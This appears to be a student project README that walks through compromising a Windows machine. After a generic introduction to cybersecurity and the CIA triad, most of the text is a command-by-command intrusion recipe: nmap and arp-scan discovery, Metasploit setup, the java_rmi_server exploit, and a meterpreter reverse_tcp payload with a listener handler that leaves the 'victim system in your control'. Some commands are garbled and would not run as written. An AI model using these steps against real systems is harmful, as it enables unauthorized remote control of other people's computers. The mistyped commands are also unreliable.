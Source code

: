 Hello everyone!

This is based on my project over Cyber Security on Hacking and Penetrating into a Windows System

INTRODUCTION

   Cybercrime is a global problem that’s been dominating the news cycle. It poses a threat to individual security and an even bigger threat to large international companies, banks, and governments.
   
   Today’s organized cybercrimes far out shadow lone hackers of the past now large organized crime rings function like start-ups and often employ highly-trained developers who are constantly innovating online attacks. It can be rightfully said that today’s generation lives on the internet, and we general users are almost ignorant as to how those random bits of 1’s and 0’s reach securely to our computer.
   
   For a hacker, it’s a golden age. With so many access points, public IP’s and constant traffic and tons of data to exploit, black hat hackers, are having one hell of a time exploiting vulnerabilities and creating malicious software for the same. Above that, cyber-attacks are evolving by the day. Hackers are becoming smarter and more creative with their malware and how they bypass virus scans and firewalls still baffles many people. There has to be some sort of protocol that protects us against all these cyberattacks and makes sure our data doesn’t fall into the wrong hands. 
   
   Cybersecurity refers to a set of techniques used to protect the integrity of networks, programs and data from attack, damage or unauthorized access.
   
   From a computing point of view, security comprises cybersecurity and physical security both are used by enterprises to protect against unauthorized access to data centres and other computerized systems. Information security, which is designed to maintain the confidentiality, integrity, and availability of data, is a subset of cybersecurity. The use of cyber security can help prevent cyber-attacks, data breaches, and identity theft and can aid in risk management.
 
   There are three main aspects we are trying to control, name: 
•	Unauthorised Access
•	Unauthorised Deletion
•	Unauthorised Modification
 		
   These three terms are synonymous with the very commonly known CIA triad which stands for Confidentiality, Integrity, and Availability.
   
   The CIA triad which stands for Confidentiality, Integrity, and Availability is a design model to guide companies and organizations to form their security policies. It is also known as the AIC triad to avoid confusion with Central Intelligence Agency (CIA).
When identifying, analysing and treating a cyber-attack, there are three principals that are kept in mind for various calculations. They are:
•	Vulnerability
•	Threat
•	Risk


MODULE DESCRIPTION

3.1 Tasks
    Hack into a Windows Machine by performing Network Scanning to find exploits and perform MITM on your Windows Machine

3.2 Target
    Device with Windows Operating System 

3.3 Tools
•	Bettercap
•	Nmap
•	Wireshark

3.4 Processes
•	Disabling the firewall
•	Network Scanning to find exploits
•	Perform MITM
•	Find and exploit the Vulnerabilities
•	Downloading payload
•	Exploit DB

# hacking_system

Step 1: Do a host discovery & perform an Enumeration

Command: arp-scan 192.168.0.1/24<Enter your network Range>
Command: nmap -sS 192.168.0.1/24 -v
Command: nmap -sS -A 192.168.0.104 -vv


Step 2: Meanwhile, Setup msfconsole

Command: service postgresql start
Command:su postgress
command: createuser msfuser1 -P <replace “msfuser1” with your username>

Set the user as superuser & create a database
Command:  reated msfproj1 –owner=msfuser1 <replace “msfproj1” with your database name & “msfuser1” with your username>
Command: exit

Start the msfconsole
Command: msfconsole


Step 3: Connect to new user & DB in msfconsole & Create new Workspace
msf> db_disconnect
msf> db_connect msfuser1:admin@localhost/msfproj1
db_connect user:pass@host/dbname

To see the current workspace,
msf> workspace
msf> workspace -a newproject <replace with your  esired name>
msf> workspace “newproject”
 
Now just check everything.
msf> db_status
msf> workspace


Step 4: Populate the hosts & services to metasploit db.
This is one of the cool features of msfconsole. You can add hosts,services & vulnerabilities to the database. 
We can run nmap from within msfconsole. All the results are stored in the database also. Issue an nmap scan agian within msfconsole. 
Here only difference is we use db_nmap instead of the regular command.
msf> db_nmap -sS 192.168.0.1/24 -vv


Step 5: Identify a vulnerable service.
 

Step 6: Search & Use Module in msfconsole.
msf> search java_rmi
msf> info exploit/multi/misc/java_rmi_server
msf> use exploit/multi/misc/java_rmi_server
 
Now you can see the prompt has changed. We can see the options by
>show options

Set the RHOST which is our target which is running the vulnerable service.
set RHOST 192.168.0.104

Remember to set all options which have a “Required YES” value. See the table of options. 
Also check if the RPORT is also correct. Check the Nmap result & the currently set Port and see if it matches. 
Next we have to set all the required options & a payload. First we have to search for compatible payloads. 
All payloads may not be compatible with current module.
>show payloads

Then for setting it, copy the path & issue:
>set PAYLOAD java/meterpreter/reverse_tcp

Meterpreter is a state of the art payload. We can have lot of fun with this powerful payload. 
We will discuss that later. Now set the LHOST, which is the machine to which the payload has to return connection. 
Remember to give the full ip address instead of localhost or 127.0.0.1 etc
set LHOST 192.168.0.103

If you want, you can change the listening Port
set LPORT 4445

All set, now
 
meterpreter> ifconfig
meterpreter>getuid
 

Step 7: Brief it UP.
As this post got a bit lengthy, I have included a screenshot of the procedure very briefly.
 
Open terminal:
 
TYPE: msfconsole		

It will a minute.

TYPE: use exploit/multi/handler
TYPE: set payload windows/meterpreter/reverse_tcp	

And we need to set your local host

TYPE: set lhost (your ip address)
TYPE: set lport (HERE)
TYPE: exploit	

And now your victim system in your control

TYPE: HELP		
For see commands
